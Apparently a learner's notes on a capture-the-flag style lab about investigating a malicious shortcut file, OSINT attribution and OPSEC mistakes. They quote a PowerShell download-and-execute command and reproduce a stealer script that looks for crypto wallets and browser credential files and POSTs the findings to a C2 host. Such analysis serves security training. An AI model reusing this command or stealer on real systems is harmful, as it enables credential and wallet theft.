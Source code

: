 ******************************************************************************************************************************
                    Day 1 - Maybe SOC-mas music, he thought, doesn't come from a store?
******************************************************************************************************************************

- Learn how to investigate malicious link files.
- Learn about OPSEC and OPSEC mistakes.
- Understand how to track and attribute digital identities in cyber investigations.

- Website investigation 

******************************************
                Investigation
******************************************               
- IP=10.10.63.164

Site Information email - theglitch@wareville.com

- file command
    - file "filename"
- exiftool
    - exiftool "filename"

- "Created by the one and only M.M." - GitHub Search
    - https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues
    - https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1

- Original written in C++ - Coverted to PowerShell
    - User provides too much information online surrounding themselves.

- Reusing usernames, email addresses, or account handles across multiple platforms. - Trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

**AlphaBay Admin Takedown**
- One of the most spectacular OPSEC failures involved Alexandre Cazes, the administrator of AlphaBay, one of the largest dark web marketplaces:
- Cazes used the email address "pimp_alex_91@hotmail.com" in early welcome emails from the site.
- This email included his year of birth and other identifying information.
- He cashed out using a Bitcoin account tied to his real name.
- Cazes reused the username "Alpha02" across multiple platforms, linking his dark web identity to forum posts under his real name.

**Chinese Military Hacking Group (APT1)**
- One member, Wang Dong, signed his malware code with the nickname "Ugly Gorilla".
- This nickname was linked to programming forum posts associated with his real name.
- The group used predictable naming conventions for users, code, and passwords.
- Their activity consistently aligned with Beijing business hours, making their location obvious.

*****************************************************
                Commandline Arguments
*****************************************************

- *-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"*
- *-ep Bypass -nop* flags disable PowerShell's restrictions, allowing scripts to run without interference from security settings or user profiles.
The DownloadFile method pulls a file from a remote server *(https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)* and saves it in the C:\\ProgramData\\ directory on the target machine.
Once downloaded, the script is executed with PowerShell using the iex command

*****************************************************
                    GitHub Script
*****************************************************

function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server 


